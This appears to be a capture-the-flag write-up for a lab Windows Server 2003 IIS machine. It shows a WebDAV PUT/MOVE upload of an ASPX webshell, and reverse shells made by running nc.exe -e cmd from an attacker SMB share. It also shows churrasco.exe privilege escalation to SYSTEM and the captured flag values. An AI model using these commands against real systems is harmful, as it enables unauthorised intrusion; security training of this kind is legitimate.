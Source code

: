 ![Curling.PNG](/assets/Machines/Easy/Curling/Curling.png)


1. Send an ICMP echo request to machine's IP address.
```bash
┌──(root㉿est)-[/home/kali]
└─| ping -c 2 10.10.10.15
```


2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.10.10.15
```

**Output**
```bash
PORT   STATE SERVICE
80/tcp open  http
```

3. Search more information about web page
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Granny]
└─| nmap -sCV -p80 10.10.10.15 -oN version
```

**Output**
```bash
|_http-server-header: Microsoft-IIS/6.0
| http-webdav-scan: 
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|   Server Date: Sat, 14 Jan 2023 17:16:16 GMT
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Type: Microsoft-IIS/6.0
|_  WebDAV type: Unknown
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

* The service is **Internet Information Services**
* Some methods are exposed, this is so dangerous!

4. For upload a file  to web site you can use this method:
* **PUT:** `curl -s -X PUT http://10.10.10.15/<File name> -d @<File>`

5. Try to upload a file for testing
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Granny]
└─| cat test.txt   
This is a test file. :)
```

```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Granny]
└─| curl -s -X PUT http://10.10.10.15/test.txt -d @test.txt
```

File in website

* **URL:** `http://10.10.10.15/<file name>`

![test.PNG](/assets/Machines/Easy/Granny/test.PNG)


6. You can use `davtest` to testing files we can upload
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Granny]
└─| davtest -url http://10.10.10.15
```

**Output**
```bash
PUT     cfm     SUCCEED:        http://10.10.10.15/DavTestDir_CMZytYwXiihSU2/davtest_CMZytYwXiihSU2.cfm
PUT     html    SUCCEED:        http://10.10.10.15/DavTestDir_CMZytYwXiihSU2/davtest_CMZytYwXiihSU2.html
PUT     asp     FAIL
PUT     php     SUCCEED:        http://10.10.10.15/DavTestDir_CMZytYwXiihSU2/davtest_CMZytYwXiihSU2.php
PUT     jhtml   SUCCEED:        http://10.10.10.15/DavTestDir_CMZytYwXiihSU2/davtest_CMZytYwXiihSU2.jhtml
PUT     cgi     FAIL                                                           
PUT     pl      SUCCEED:        http://10.10.10.15/DavTestDir_CMZytYwXiihSU2/davtest_CMZytYwXiihSU2.pl
PUT     aspx    FAIL
PUT     txt     SUCCEED:        http://10.10.10.15/DavTestDir_CMZytYwXiihSU2/davtest_CMZytYwXiihSU2.txt
PUT     jsp     SUCCEED:        http://10.10.10.15/DavTestDir_CMZytYwXiihSU2/davtest_CMZytYwXiihSU2.jsp
PUT     shtml   FAIL
```

* **.aspx** files are generate automatically for the server, if can upload this types of files we can execute commands.


7. We don't upload .aspx files in this case we can upload a shell **.aspx** (In Kali: /usr/share/webshells/aspx/cmdasp.aspx) but, change the extension file like this:

```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Granny]
└─| curl -s -X PUT http://10.10.10.15/shell.txt -d @cmdasp.aspx
```

8. We can change the extension with other option **MOVE**
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Granny]
└─| curl -s -X MOVE -H "Destination:http://10.10.10.15/shell.aspx" http://10.10.10.15/shell.txt
```

9. Now, access final file and ...

![aps.PNG](/assets/Machines/Easy/Granny/aps.PNG)

10. To get a reverse shell we need [nc.exe](https://eternallybored.org/misc/netcat/)
    
First, create a smbserver to share nc.exe 
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Granny]
└─| impacket-smbserver Test $(pwd) -smb2support
```

Then, execute this command in webshell

* **Command:** `\\<Tun0 IP>\Test\nc.exe -e cmd <Tun0 IP> <Port>`


**Output**
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Granny]
└─# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.29] from (UNKNOWN) [10.10.10.15] 1032
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>whoami
whoami
nt authority\network service
```


---
---
---
### **Privileges Escalation** 💀

1. Search information about windows version

```bash
c:\windows\system32\inetsrv>systeminfo                                                                                                 
Host Name:GRANNY                                                 
OS Name: Microsoft(R) Windows(R) Server 2003, Standard Edition
```

2. Search about privileges

```bash
c:\windows\system32\inetsrv>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAuditPrivilege              Generate security audits                  Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled
```

3. Search for any exploit uses **SeImpersonatePrivilege** and **Windows Server 2003** [Exploit](https://binaryregion.wordpress.com/2021/08/04/privilege-escalation-windows-churrasco-exe/)

4. Download this executable and create againa a **smbserver** and download in target machine.


* To download in target machine
```cmd
C:\WINDOWS\Temp\Exploit>copy \\10.10.14.29\Test\churrasco.exe churrasco.exe
```

5. Execute this exploit 
```bash
C:\WINDOWS\Temp\Exploit>.\churrasco.exe -d "whoami"

nt authority\system
```

6. Execute a commando to get a reverse shell how autority\system
```bash
C:\WINDOWS\Temp\Exploit>.\churrasco.exe -d "\\10.10.14.29\Test\nc.exe -e cmd 10.10.14.29 4444"
```

**Output**
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Granny]
└─# rlwrap nc -lvnp 4444               
listening on [any] 4444 ...
connect to [10.10.14.29] from (UNKNOWN) [10.10.10.15] 1035
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\TEMP>whoami
whoami
nt authority\system
```

7. Cat user and root flag
* User flag
```cmd
C:\Documents and Settings>type Lakis\Desktop\user.txt
700c5dc163014e22b3e408f8703f67d1
```

* Root flag
```cmd
C:\Documents and Settings>type Administrator\Desktop\root.txt
aa4beed1c0584445ab463a6747bd06e9
```